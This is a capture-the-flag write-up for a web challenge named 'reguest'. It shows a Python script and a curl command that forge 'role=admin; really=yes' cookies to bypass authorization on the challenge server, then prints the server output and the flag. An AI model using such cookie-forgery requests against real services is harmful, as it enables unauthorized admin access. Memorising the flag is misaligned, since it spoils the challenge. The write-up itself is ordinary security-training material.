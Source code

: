 ## reguest

<details>
  <summary>Description</summary>
  
  > Desc: HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities. <br>
  > http://52.59.124.14:10014 <br>

  > [chall.zip](./chall.zip)
  
</details>

We can send an HTTP GET request using the cURL utility to the address http://52.59.124.14:10014, including a cookie in the request header.

```python3
import requests

url = 'http://52.59.124.14:10014'
cookies = {'role': 'admin', 'really': 'yes'}
resp = requests.get(url, cookies=cookies)

print(resp.content.decode())
```

The -b argument is used to specify the cookie that will be included in the request header. The value of the cookie is `role=admin; really=yes`. This cookie can be used by the server for authentication or other settings.

In this case, the request is targeted to a web service that requires authorization at the 'admin' level and requests confirmation from the user ('really=yes').

Or use this simple payloads

```bash
$ curl -b "role=admin; really=yes" http://52.59.124.14:10014

Usage: Look at the code ;-)

Overwriting cookies with default value! This must be secure!
Prepared request cookies are: [('really', 'yes'), ('role', 'guest')]
Sending request...
Request cookies are: [('really', 'yes'), ('role', 'guest')]

Someone's drunk oO

Response is: Admin: ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}
```

<details>
  <summary>Flag</summary>
  
  > `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`
  
</details>
